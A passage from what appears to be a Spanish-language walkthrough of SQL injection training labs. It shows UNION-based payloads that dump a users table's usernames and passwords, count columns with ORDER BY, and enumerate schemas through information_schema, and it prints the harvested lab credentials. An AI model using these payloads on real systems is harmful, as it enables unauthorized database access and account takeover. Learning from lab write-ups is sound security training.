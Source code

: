Y para poder ver el contenido del `username` y del `password` haremos lo siguiente...

```mysql
' union select NULL,PASSWORD_MJWVFY||':'||USERNAME_UGMMPB from USERS_NADZKF-- -
```

Veremos esto...

```
|2nwbzbzmt1znmwdtb02r:wiener|
|gl4x0f8gfbciozsmeqk4:administrator|
|re1ubcoda6pcoz8176aq:carlos|
```

Por lo que nos logeamos con el de `admin` y ya estaria...

<figure><img src="../../.gitbook/assets/sql3.png" alt=""><figcaption></figcaption></figure>

### Lab: SQL injection UNION attack, determining the number of columns returned by the query

En este caso te dice que tienes que rellenar todas las columnas de `NULL`, por lo que haremos lo siguiente...

Veremos cuantas columnas tiene...

```mysql
' order by 3-- -
```

Con esto sabemos que si ponemos `4` ya nos devuelve un error, por lo que son `3`...

```mysql
' union select NULL,NULL,NULL-- -
```

Y si ponemos eso, ya habriamos rellenado las 3 columnas que hay de `NULL` por lo que ya lo tendriamos resuelto...

### Lab: SQL injection UNION attack, finding a column containing text

En este caso lo que hay que hacer es poner la cadena `qnUgvU` en la columna que sea inyectable, para ver eso tendremos que ver lo siguiente...

```mysql
' union select NULL,schema_name,NULL from information_schema.schemata-- -
```

Con esto sabemos que el `NULL` del medio es inyectable, por lo que haremos lo siguiente...
